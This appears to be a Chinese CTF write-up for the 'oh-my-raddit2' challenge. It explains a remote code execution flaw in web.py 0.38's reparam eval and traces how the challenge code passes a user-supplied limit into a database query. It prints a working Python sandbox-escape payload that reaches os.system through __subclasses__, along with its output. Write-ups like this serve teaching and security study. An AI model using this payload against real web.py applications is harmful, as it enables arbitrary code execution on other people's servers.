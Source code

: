 ```py
            elif method == 'p':
                limit = s.get('l')
                return web.template.frender('templates/index.html')(get_posts(limit), get_urls())
            else:
                return web.template.frender('templates/index.html')(get_posts(), get_urls())


if __name__ == "__main__":
    app.run()
```
得到真正的秘钥:megnnaro

# oh-my-raddit2
相同操作下载requirements.txt发现`web.py==0.38`.
这个版本的web.py存在一个RCE: https://securityetalii.es/2014/11/08/remote-code-execution-in-web-py-framework/

这个版本的web.py应该是作者提出漏洞后第一次的修复结果:
```py
import web
web.reparam("$__import__('os').getcwd()", {})
Traceback (most recent call last):
  File "<input>", line 1, in <module>
  File "/Users/n3k0/PycharmProjects/webpy/venv/lib/python2.7/site-packages/web/db.py", line 305, in reparam
    v = eval(chunk, dictionary)
  File "<string>", line 1, in <module>
NameError: name '__import__' is not defined
```
`__import__`无法使用,但下面的payload可用:
```py
import web
web.reparam("${(lambda getthem=([x for x in ().__class__.__base__.__subclasses__() if x.__name__=='catch_warnings'][0]()._module.__builtins__):getthem['__import__']('os').system('ls'))()} ", {})
test.py
venv
<sql: '0 '>
```
观察到
```
            elif method == 'p':
                limit = s.get('l')
                return web.template.frender('templates/index.html')(get_posts(limit), get_urls())
            else:
                return web.template.frender('templates/index.html')(get_posts(), get_urls())
```
使用了`get_posts()`函数。
get_posts:
```py
def get_posts(limit=None):
    records = []
    for i in db.select('posts', limit=limit, order='ups desc'):
        tmp = {
            'm': 'r', 
            't': i.title.encode('utf-8', 'ignore'), 
            'u': i.id, 
        } 
        tmp['param'] = encrypt(urllib.urlencode(tmp))
        tmp['ups'] = i.ups
        if i.file:
            tmp['file'] = encrypt(urllib.urlencode({'m': 'd', 'f': i.file}))
        else:
            tmp['file'] = ''
        
        records.append( tmp )
```
